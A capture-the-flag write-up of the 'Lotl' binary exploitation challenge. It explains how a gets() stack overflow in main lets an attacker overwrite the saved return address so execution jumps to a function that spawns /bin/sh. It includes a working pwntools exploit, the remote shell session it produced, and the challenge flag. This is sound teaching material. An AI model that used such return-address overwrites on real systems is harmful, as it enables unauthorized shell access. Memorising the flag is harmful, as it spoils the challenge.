

# Lotl

## Problem Text

_Save the planet!_

_Well, we should then better LOTL and use what we have, right?_

```text
nc 46.101.107.117 2102
```

_Get a shell and read the flag._

---

Lotl was a binary exploitation, or 'pwning' challenge, which required users to exploit a binary running on a server to get to a shell. We were not given the source code, but we were given the executable binary to test.

As with all pwning challenges, let's first run this program and see what it does.

```text
$ ./lotl
Welcome! Please give me your name!
> sammy
Hi sammy, nice to meet you!
```

The program asks for a user's name and then prints a customized welcome message with their name. Simple enough. The next step is to disassemble this program.

Opening this program in `radare2`, let's take a look.



Right away we find what we're looking for.

This executable has two main functions: `main` and `profit`. The `profit` function calls the libc function `system`, which runs an executable on the system, and we can see that it is passed the parameter `/bin/sh`, which is a symlink to the system shell executable.

So right away we know that we need to find a way to jump to this function. The question is how are we going to do that.

The answer lies in the `main` function.

```text
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000000000400809 <+0>: push   rbp
   0x000000000040080a <+1>: mov    rbp,rsp
   0x000000000040080d <+4>: sub    rsp,0x30
   0x0000000000400811 <+8>: mov    DWORD PTR [rbp-0x24],edi
   0x0000000000400814 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x0000000000400818 <+15>:    mov    eax,0x0
   0x000000000040081d <+20>:    call   0x400757 <ignore_me_init_buffering>
   0x0000000000400822 <+25>:    mov    eax,0x0
   0x0000000000400827 <+30>:    call   0x4007e7 <ignore_me_init_signal>
   0x000000000040082c <+35>:    lea    rdi,[rip+0x105]        # 0x400938
   0x0000000000400833 <+42>:    mov    eax,0x0
   0x0000000000400838 <+47>:    call   0x400620 <printf@plt>
   0x000000000040083d <+52>:    lea    rax,[rbp-0x20]
   0x0000000000400841 <+56>:    mov    rdi,rax
   0x0000000000400844 <+59>:    mov    eax,0x0
   0x0000000000400849 <+64>:    call   0x400650 <gets@plt>
   0x000000000040084e <+69>:    lea    rax,[rbp-0x20]
   0x0000000000400852 <+73>:    mov    rsi,rax
   0x0000000000400855 <+76>:    lea    rdi,[rip+0x102]        # 0x40095e
   0x000000000040085c <+83>:    mov    eax,0x0
   0x0000000000400861 <+88>:    call   0x400620 <printf@plt>
   0x0000000000400866 <+93>:    mov    eax,0x0
   0x000000000040086b <+98>:    leave
   0x000000000040086c <+99>:    ret
End of assembler dump.
```

The first few function calls presumably set up some signal handlers, followed by a call to printf, likely to print the greeting line.

What we're looking for lies in the next function call:

```text
call   0x400650 <gets@plt>
```

This line calls the libc function `gets`. It takes a pointer to a `char[]` and reads characters from stdin, filling up the array as it goes. In the context of this program, it's where the program asks for the user's name.

It's also very, very unsafe.

`gets` does not do bounds checking, and if the length of the string exceeds the length of the array allocated for it, bad things happen. You start to write into memory that the OS has not allocated for your program, which means you could overwrite some data that the program needs to function properly. Most of the time, this results in a segmentation fault, causing the program to abort. However, if the array passed to it is on the stack, we can use it to trigger a buffer overflow on the program stack by writing past the end of the stack array allocated for it and into the stack frame of the previous function.

## The Stack and Calling Conventions

Every processor has a register called the instruction pointer. This contains the value of the next instruction to be executed by the processor. On Intel x64 processors (which this program is compiled to run on), this register is called `rip`. When the processor encounters a `call` instruction, it pushes the value of `rip` onto the stack and jumps to the location of the new function that was just called. It then sets up a new stack frame with the following instructions:

```assembly
push rbp
mov rbp, rsp
```

`rbp` and `rsp` are two registers that track the current stack frame. `rbp` stands for base pointer and tracks the bottom of the current stack frame. `rsp` stands for stack pointer and tracks the top of the stack frame. `push rbp` saves the bottom of the previous stack frame by pushing its address onto the stack. The base pointer is then moved to point to the bottom of the new stack frame (where `rsp` is currently pointing), by copying the value of `rsp` into `rbp`. When new stack variables are declared, `rsp` is updated to track the top of the stack frame. This is seen in the `sub rsp, 0x30` right after the entry point into `main`, which is presumably where the character array to store the user input is declared.

When a function returns, it executes the `leave` instruction. This pops the saved value of `rbp` off the stack and restores the old stack frame. Right after `leave` is the `ret` instruction. This pops the saved `rip` off the stack and back into `rip`, so the processor knows where to jump back to.

When `gets` is called, it begins to write into the stack array declared, writing characters down the stack. Since it does not do bounds checking, we could potentially exceed the length of the array and overwrite the stack frame data...

...and the saved instruction pointer. If we overwrite the return address of `main` with the address of `profit`, we can cause the processor to jump to it, and thus execute the `system` function call, giving us our shell!

## Testing

First, we did some fuzzing on the executable to see what would happen if it was passed a long string as input.

```shell
$ echo "sammy" | ./lotl
Welcome! Please give me your name!
> Hi sammy, nice to meet you!

$ python -c 'print(b"A" * 64)' | ./lotl
Welcome! Please give me your name!
> Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, nice to meet you!
Segmentation fault (core dumped)
```

When we fed it 64 bytes of data, the program segfaulted. This means that we were able to overwrite the stack frame data and the saved instruction pointer, causing the processor to jump to somewhere it wasn't supposed to, causing the OS to trigger a segfault and abort the program.

Great! Now that we know that we can overwrite `rip`, we just need to figure out exactly how many bytes to feed in.

Let's take a look at the assembly of the `profit` function:

```text
(gdb) disassemble profit
Dump of assembler code for function profit:
   0x000000000040086d <+0>: push   rbp
   0x000000000040086e <+1>: mov    rbp,rsp
   0x0000000000400871 <+4>: lea    rdi,[rip+0x100]        # 0x400978
   0x0000000000400878 <+11>: call   0x400610 <system@plt>
   0x000000000040087d <+16>: nop
   0x000000000040087e <+17>: pop    rbp
   0x000000000040087f <+18>: ret
End of assembler dump.
```

The address of function profit is `0x40086d`, so we need to overwrite `rip` with this value. After some messing around in GDB, we found that feeding in 40 bytes of data overwrote data up till right before the saved `rip` value.

```text
$ python -c 'print(b"A" * 40)' > tmpfile
no output

$ gdb
(gdb) break printf
(gdb) r < tmpfile
(gdb) r < tmpfile
Starting program: ~/Projects/hackyeaster/Lotl/lotl < tmpfile

Breakpoint 1, 0x00007ffff7e30590 in printf () from /usr/lib/libc.so.6
(gdb) c
Continuing.
Welcome! Please give me your name!
>
Breakpoint 1, 0x00007ffff7e30590 in printf () from /usr/lib/libc.so.6
(gdb) x/40x $sp
0x7fffffffe568: 0x00400866  0x00000000  0xffffe698  0x00007fff
0x7fffffffe578: 0x00400880  0x00000001  0x41414141  0x41414141
0x7fffffffe588: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe598: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffe5a8: 0xf7dffb00  0x00007fff  0xffffe698  0x00007fff
0x7fffffffe5b8: 0xf7fca000  0x00000001  0x00400809  0x00000000
0x7fffffffe5c8: 0xffffe949  0x00007fff  0x00400880  0x00000000
0x7fffffffe5d8: 0xa8a731e1  0x0e111ae8  0x00400670  0x00000000
0x7fffffffe5e8: 0x00000000  0x00000000  0x00000000  0x00000000
0x7fffffffe5f8: 0x00000000  0x00000000  0x63c731e1  0xf1eee517
(gdb) info frame 1
Stack frame at 0x7fffffffe5b0:
 rip = 0x400866 in main; saved rip = 0x7ffff7dffb00
 caller of frame at 0x7fffffffe570
 Arglist at 0x7fffffffe5a0, args:
 Locals at 0x7fffffffe5a0, Previous frame's sp is 0x7fffffffe5b0
 Saved registers:
  rbp at 0x7fffffffe5a0, rip at 0x7fffffffe5a8
```

In the text dump above, 0x41 is the byte representation of the letter A. The saved RIP is at `0x7fffffffe5a8`. Now we just need to overwrite that address with the address of `profit`. We can do this easily with `pwntools`, a python binary exploitation library:

```python
from pwn import *

# using pwntools, launch the executable locally
conn = process("./lotl")

# read the output until the program asks for input
conn.recvuntil(b'> ')

# construct the string to send
#                  address of profit in little endian byteorder, padded to 64 bits
string = b"A"*40 + b"\x6e\x08\x40\x00\x00\x00\x00\x00"

conn.send(string)

# enter interactive mode
conn.interactive()
```

When we run this locally, we get:

```text
$ python lotl.py
[+] Starting local process './lotl': pid 240514
[*] Switching to interactive mode
$ 
```

That dollar sign means the script did its job, it overwrote `rip` and we have our shell!

Now all we have to do is pwn the server!

With a modified target:

```python
conn = remote("46.101.107.117", 2102)
```

We can run the script again.

```text
note: >> is local prompt, $ is remote prompt.

>> python lotl.py
[+] Opening connection to 46.101.107.117 on port 2102: Done
[*] Switching to interactive mode
$ ls
challenge1
flag
ynetd
$ cat flag
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
```

---
*Flag:* `he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}`
